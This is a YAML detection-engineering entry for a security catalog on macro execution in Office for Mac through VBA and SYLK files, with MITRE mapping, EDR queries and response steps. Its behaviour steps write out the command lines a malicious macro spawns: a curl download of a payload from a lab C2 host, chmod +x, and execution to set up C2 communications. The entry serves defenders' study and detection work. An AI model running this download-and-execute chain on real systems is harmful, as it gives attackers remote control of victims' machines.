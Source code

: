 ```yaml
---
Name: Office for Mac
Description: These techniques are far more common on the Windows side, but Office for Mac also has the ability to execute VBA on macOS systems. These techniques are far less common on macOS, likely because they stand out from an EDR perspective and Microsoft has implemented sandboxing in recent versions of Office for Mac (2016 and higher). However, it is still important to test these scenarios on all Office for Mac versions, since sandbox escapes are always possible and recent techniques such as SYLK file extension abuse share some of the same detection logic as VBA execution vectors.
Author: Adam Nadrowski
Created: 2022-05-18
Full_Path:
  - Path: /Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel
  - Path: /Applications/Microsoft PowerPoint.app/Contents/MacOS/Microsoft PowerPoint
  - Path: /Applications/Microsoft Word.app/Contents/MacOS/Microsoft Word
  - Path: /bin/bash
Resources:
  - Link: https://outflank.nl/blog/2019/10/30/abusing-the-sylk-file-format
Commands:

  - Name: Macro VBA for Excel, PowerPoint and Word
    Description: This query detects any instance of Excel, PowerPoint or Word spawning processes. This is typically done using the MacScript function of VBA. The MacScript function is slowly being deprecated for the more popular AppleScript function.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a Office for Mac file (Excel, PPT, or Word), launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel|PowerPoint|Word" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name Microsoft Excel|PowerPoint|Word executes multiple bash processes for each command in the macro. Each future bash process is unique.
      - Step: The first command, bash executes curl to download a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data (replace Excel with PowerPoint or Word). The command line is <pre><code>sh -c curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload</pre></code>
      - Step: The next command, bash executes chmod to make the payload executable. The command line is <pre><code>sh -c chmod +x operator-payload</pre></code>
      - Step: The next command, bash executes the payload to establish C2 comms with Prelude Operator. The command line is <pre><code>sh -c ./operator-payload -name macro-vba-excel & </pre></code>
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload (replace Excel with PowerPoint or Word) makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with any of the VBA based techniques within the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: (parent_process_image_path = "/Applications/Microsoft Excel.app/*" OR parent_process_image_path = "/Applications/Microsoft PowerPoint.app/*" OR parent_process_image_path = "/Applications/Microsoft Word.app/*") and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.

  - Name: Excel macro execution via SYLK file extension
    Description: This query detects any instance of Excel launching the bash process. The SYLK file extension is an ancient extension that can be abused to execute macros. Thankfully, the OS behaviors mimick that of regular macros being executed, so the same query from the "Macro VBA for Excel, PowerPoint and Word" TTP will detect this.
    Usecase: Adversaries may pair this technique with a social engineering component to execute malware.
    Category: Execution
    Privileges: User
    MitreID: T1059.007
    Behaviors:
      - Step: When opening a file with the slk extension, launchd creates the "/Applications/Microsoft Excel.app/Contents/MacOS/Microsoft Excel" process as user.
      - Step: A prompt appears on the GUI asking the user to enable macros.
      - Step: Once a user enables macros, process_name "Microsoft Excel" executes one bash process with the cmdline <pre><code>sh -c /usr/bin/curl -k http://127.0.0.1:3391/payloads/d2526ae26fc2139263f57c2af445004e385772ec/operator-payload -o operator-payload && chmod +x operator-payload && ./operator-payload -name macro-sylk-excel & </pre></code>
      - Step: The first command, curl, downloads a payload to disk, and is saved under ~/Library/Containers/com.microsoft.Excel/Data/operator-payload.
      - Step: The next command, chmod, makes the payload executable.
      - Step: The next command, operator-payload, is the malicious payload that executes to establish C2 comms with Prelude Operator.
      - Step: The payload, ~/Library/Containers/com.microsoft.Excel/Data/operator-payload makes a network connection to Operator.
    Execute:
      - Prelude Operator: Run <a href="https://github.com/AutomoxSecurity/iShelly">iShelly</a> with the "Macro SYLK Excel" procedure from the "Office for Mac" options. It is important to note that Office for Mac 2016 and higher has an Apple Sandbox with more resitrctions. This means techniques that leverage VBA macros to write a binary to disk will likely fail. However, it is still important to test this as <a href="https://www.mdsec.co.uk/2018/08/escaping-the-sandbox-microsoft-office-on-macos/">sandbox escapes</a> may be possible.
    Detect:
      - EDR: parent_process_image_path = "/Applications/Microsoft Excel.app/*" and process_name = "bash" and event_type = "Process Create"
    Respond:
      - Step: Review the cmdline of bash's children. This should make it fairly easy to tell if it is malicious or not. For example, if it's curl reaching out to a suspect domain/IP and saving some payload to disk using -o argument, it likely warrants immediate investigation.
---
```

